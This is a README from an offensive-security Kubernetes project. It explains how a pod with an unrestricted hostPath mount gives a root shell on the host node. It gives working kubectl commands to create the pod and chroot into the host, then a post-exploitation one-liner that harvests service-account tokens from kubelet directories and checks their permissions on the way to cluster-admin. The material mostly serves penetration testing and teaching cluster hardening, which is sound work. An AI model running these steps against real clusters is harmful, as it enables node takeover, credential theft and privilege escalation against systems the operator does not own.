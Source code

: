 # You can create a pod with only a hostpath mount, but it is unrestricted 
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 

[pod-hostpath-only.yaml](pod-hostpath-only.yaml)

### Create a pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostpath-only.yaml  
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpath-only/pod-hostpath-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpath-only -- chroot /host

```

### Post exploitation
```bash
# You now have read/write access to the nodes's filesystem, mounted in /host within your pod. 
cd /host

# Example privesc path: Hunt for tokens in /host/var/lib/kubelet/pods/
tokens=`find /host/var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token

#Copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /host/var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```
   
Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/